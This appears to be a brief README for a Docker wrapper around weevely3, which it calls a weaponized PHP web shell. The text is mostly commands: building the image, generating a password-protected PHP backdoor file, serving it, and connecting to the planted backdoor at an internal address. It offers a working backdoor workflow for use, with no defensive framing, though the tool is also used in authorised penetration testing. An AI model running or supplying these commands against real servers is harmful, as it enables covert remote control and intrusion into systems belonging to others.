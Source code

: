 #### 1. About

- URL: `https://github.com/epinna/weevely3`
- weaponized PHP web shell


#### 2. Build
```
# docker build -t weevely .
```


#### 3. Example

Generate backdoor:
```
# touch /tmp/back.php
# docker run --rm -it -v /tmp/back.php:/x weevely generate test /x
Generated '/x' with password 'test' of 792 byte size.
```

Use the backdoor after deployment:
```
# cd /tmp/ && php -S 0.0.0.0:8080
# docker run --rm -it weevely http://172.16.201.160:8080/back.php test
```
